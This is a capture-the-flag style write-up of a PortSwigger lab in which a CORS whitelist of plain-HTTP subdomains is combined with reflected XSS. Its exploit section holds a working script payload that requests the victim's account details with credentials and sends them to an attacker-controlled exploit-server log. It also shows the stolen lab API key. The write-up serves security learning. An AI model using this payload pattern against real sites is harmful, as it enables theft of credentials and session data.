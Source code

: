 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3b5d58cb-5fb8-40bb-8159-9566d68bcb47)

## Overview :

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

The application responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

1. The victim user makes any plain HTTP request.

2. The attacker injects a redirection to:

```
http://trusted-subdomain.vulnerable-website.com
```

3. The victim's browser follows the redirect.

4. The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:

```
https://vulnerable-website.com
```
    
5. The victim's browser makes the CORS request, including the origin:

```
http://trusted-subdomain.vulnerable-website.com
```
6. The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
7. The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure. 

## Solution :

Login using the credentials - `wiener:peter`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/99ca5917-faa1-4b9f-9773-476fd260e0d1)

### Analysis -

When we give `Origin: evil.com` or `Origin: null` , we don't see any ACAO header in the response.

But when we give `Origin : http://subdomain.lab-domain.com`, we get the `Access-Control-Allow-Origin` in the response. [Note that we gave `http` instead of `https`]


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ffbb156d-2c71-47e2-9681-633f9e63ad85)

So if we provide subdoamin of the website along with http insecure protocol, we are able to bypass the whitelist.

### Finding an XSS -

In real life cases, if an attacker performs a MITM attack , then he can  exploit the CORS configuration to compromise the victim's interaction with the application. But in this lab we can't perform MITM attacks.

So the other way around to steal Administrator's API keys is by exploiting an XSS vulnearbility. 

When we click on _checkstock_, we are taken to a new tab to display the result.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b4e6b5b6-dff7-4c65-99e6-615b3dfb9a7d)

If we enter a simple **alert()** script in productID parameter, we get a pop up which confirms that it is vulnerable to XSS.

```http
GET /?productId=<script>alert("Hey")</script>&storeId=1 HTTP/1.1
Host: stock.0af70017037181d080154981006d004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5118e6fa-6150-4b87-b772-822e5f234220)


This **productID** parameter is vulnerable to XSS

### Exploit -

Go to exploit server and enter the following XSS payload to steal the API key of admin.

```javascript
<script>
    document.location="http://stock.0af70017037181d080154981006d004f.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0af70017037181d080154981006d004f.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a5f00ab0389812580e4481001de00fc.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
Deliver the exploit to victim & view AccessLog , there we will find the API key of admin in the URL portion.

```json
/log?key={  "username": "administrator",  "email": "",  "apikey": "PULwsUrbRddKwMMMhie39ANbcbUd6ZSI",  "sessions": [    "S6YLHwRxIswqvCLXhlVpPU6eaR8Dkppi"  ]}
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2e00d5ab-2ade-48de-bc6b-ac0d74f7da27)


Submit the API key of admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/408c8c79-a3e7-40dc-8166-16d7b6f29de6)
